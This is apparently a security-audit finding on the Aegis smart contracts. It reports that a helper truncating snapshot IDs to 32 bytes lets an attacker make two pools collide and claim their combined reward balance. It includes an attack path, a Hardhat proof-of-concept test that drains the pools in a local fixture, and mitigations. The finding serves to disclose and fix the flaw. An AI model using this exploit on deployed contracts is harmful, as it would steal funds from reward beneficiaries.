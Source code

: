 Generous Punch Whale

High

# Malicious claimant will drain multiple reward pools by exploiting ID-truncation collision

### Summary

The unsafe conversion in _stringToBytes32() will cause a complete loss of funds for reward-pool beneficiaries, as an attacker will supply two long snapshot IDs that collapse to the same 32-byte key and then claim the aggregated balance with a single signature.

### Root Cause

https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L188

* In **`contracts/AegisRewards.sol:188`** the helper

  ```solidity
  function _stringToBytes32(string memory source) private pure returns (bytes32 result) {
      assembly { result := mload(add(source, 32)) }   // <-- takes *only* the first 32 bytes
  }
  ```

  truncates every UTF-8 string to its first 32 bytes and silently discards the rest.
* Any two snapshot IDs whose first 32 bytes are equal (e.g. one 33-byte suffix “A”, another “B”) map to the **same** storage slot in `_rewards`, while off-chain logic still treats them as distinct pools.

### Internal Pre-conditions

1. **Rewards manager** finalises a snapshot ID **`ID₁`** (`length > 32 bytes`) by calling
    `finalizeRewards(bytes32(ID₁[0..31]), …)`.
2. **AegisMinting** later deposits YUSD for a *different* long ID **`ID₂`** that shares the same first 32 bytes (`ID₁[0..31] == ID₂[0..31]`).
3. The signing backend produces a valid EIP-712 **claim signature** that **does not bind** **`recipient`**.

### External Pre-conditions

* Attacker must see—or front-run—a valid claim signature in mempool / logs / support chat.

### Attack Path

1. Attacker observes that `ID₁` has been finalised and funded.
2. Attacker submits an ordinary user action (suggestion, form, API call) that makes the backend create `ID₂` whose first 32 bytes equal `ID₁[0..31]`.
3. AegisMinting executes `depositIncome(…, additionalData = ID₂)` increasing `_rewards[key].amount` where `key == bytes32(ID₁[0..31])`.
4. Backend returns a **signed** `ClaimRequest` for `ID₁` (or `ID₂`) that lacks a `recipient` field.
5. Attacker copies that signature, crafts

    ```json
    { claimer: attacker, ids: [key], amounts: [amount₁+amount₂] }
    ```

    and calls `claimRewards`.
6. Contract passes all checks (finalised \= true, amount \> 0) and transfers the *combined* balance to attacker.
7. Legitimate holder of `ID₁` or `ID₂` subsequently calls `claimRewards` and hits `ZeroRewards()`.

### Impact

The reward beneficiaries lose the entire balance of every collided pool (100 % of amount₁ + amount₂ + …).
The attacker receives that full amount. Economic damage is limited only by the total YUSD held in affected IDs.

### PoC

Add poc in test/7_aegis_rewards.spec.ts

run npx hardhat test test/7_aegis_rewards.spec.ts

```js
const PREFIX = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'             // 32 chars = 32 bytes
const LONG_ID_A = PREFIX + 'A'                               // 33 bytes
const LONG_ID_B = PREFIX + 'B'                               // 33 bytes
/* --------------------------- 2. Tool: Recreating _stringToBytes32 ---------------------- */
function first32Bytes(str: string): string {
  const utf8 = ethers.toUtf8Bytes(str)
  const slice = utf8.slice(0, 32)                            // Take first 32 bytes
  // Pad right with 0x00 to reach 32 bytes
  while (slice.length < 32) slice.push(0)
  return ethers.hexlify(slice)                               // Return 0x...
}

describe('⚠️  AegisRewards – stringToBytes32 collision (fixed)', () => {
  it('allows over-claim due to bytes32 truncation', async () => {
    /* ------------------------------------------------------------------ *
     * ① Deployment & Authorization
     * ------------------------------------------------------------------ */
    const [owner, attacker] = await ethers.getSigners()
    const {
      aegisMintingContract,
      aegisMintingAddress,
      aegisRewardsContract,
      aegisRewardsAddress,
      assetContract,
      assetAddress,
      yusdContract,
    } = await loadFixture(deployFixture)

    await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)
    await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
    await aegisRewardsContract.grantRole(REWARDS_MANAGER_ROLE, owner)
    await aegisMintingContract.setInsuranceFundAddress(ethers.ZeroAddress)

    /* ───────────────────── Step-A: deposit + finalize (ID-A) ───────────────────── */
    const amtA = ethers.parseEther('1')
    {
      await assetContract.mint(aegisMintingAddress, amtA)

      const orderA = {
        orderType:              OrderType.DEPOSIT_INCOME,
        userWallet:             owner.address,
        beneficiary:            ethers.ZeroAddress,
        collateralAsset:        assetAddress,
        collateralAmount:       amtA,
        yusdAmount:             amtA,
        slippageAdjustedAmount: 0,
        expiry:                 (await time.latest()) + 1e4,
        nonce:                  Date.now(),
        additionalData:         encodeString(LONG_ID_A),     // bytes
      }
      const sigA = await signOrder(orderA, aegisMintingAddress)
      await aegisMintingContract.depositIncome(orderA, sigA)
    }

    // Calculate bytes32 Key consistent with contract internal representation
    const REWARD_KEY = first32Bytes(LONG_ID_A)               // Same key as LONG_ID_B

    await aegisRewardsContract.finalizeRewards(REWARD_KEY, 0)

    /* ───────────────────── Step-B: Deposit again (ID-B), accumulate balance ────────────────── */
    const amtB = ethers.parseEther('2')
    {
      await assetContract.mint(aegisMintingAddress, amtB)

      const orderB = {
        orderType:              OrderType.DEPOSIT_INCOME,
        userWallet:             owner.address,
        beneficiary:            ethers.ZeroAddress,
        collateralAsset:        assetAddress,
        collateralAmount:       amtB,
        yusdAmount:             amtB,
        slippageAdjustedAmount: 0,
        expiry:                 (await time.latest()) + 1e4,
        nonce:                  Date.now(),
        additionalData:         encodeString(LONG_ID_B),
      }
      const sigB = await signOrder(orderB, aegisMintingAddress)
      await aegisMintingContract.depositIncome(orderB, sigB)
    }

    /* ───────────────────── Step-C: Attacker claims all at once 1 + 2 = 3 ────────────────────── */
    const TOTAL = amtA + amtB

    const claimReq = {
      claimer: attacker.address,
      ids:     [REWARD_KEY],
      amounts: [TOTAL],
    }
    const sig = await signClaimRequest(claimReq, aegisRewardsAddress)

    const balRewardsBefore  = await yusdContract.balanceOf(aegisRewardsAddress)
    const balAttackerBefore = await yusdContract.balanceOf(attacker.address)

    await expect(aegisRewardsContract.connect(attacker).claimRewards(claimReq, sig))
      .to.emit(aegisRewardsContract, 'ClaimRewards')
      .withArgs(attacker.address, [REWARD_KEY], TOTAL)

    expect(await yusdContract.balanceOf(aegisRewardsAddress))
      .to.equal(balRewardsBefore - TOTAL)
    expect(await yusdContract.balanceOf(attacker.address))
      .to.equal(balAttackerBefore + TOTAL)

    /* ───────────────────── Step-D: Legitimate user tries to claim → ZeroRewards ───────────────────── */
    const victimReq = {
      claimer: owner.address,
      ids:     [REWARD_KEY],
      amounts: [amtA],
    }
    const victimSig = await signClaimRequest(victimReq, aegisRewardsAddress)

    await expect(aegisRewardsContract.connect(owner).claimRewards(victimReq, victimSig))
      .to.be.revertedWithCustomError(aegisRewardsContract, 'ZeroRewards')
  })
})
```

Output:

⚠️  AegisRewards – stringToBytes32 collision (fixed)
      ✔ allows over-claim due to bytes32 truncation

### Mitigation

1. **Replace the helper**

    ```solidity
    bytes32 id = keccak256(bytes(source));   // unique, collision-resistant
    ```

    *or* require `bytes(source).length ≤ 32` and reject longer IDs.
2. **Bind recipient in the signature**: add `address recipient` to the EIP-712 struct and
    `require(claimRequest.recipient == msg.sender);`.
3. Prevent post-finalisation deposits by storing `require(!_rewards[id].finalized)` inside `depositRewards`.
4. Backfill existing pools: migrate historical IDs to their new `keccak256` keys and deprecate the truncated ones.

Applying any single measure blocks the exploit; implementing all drastically reduces future attack surface.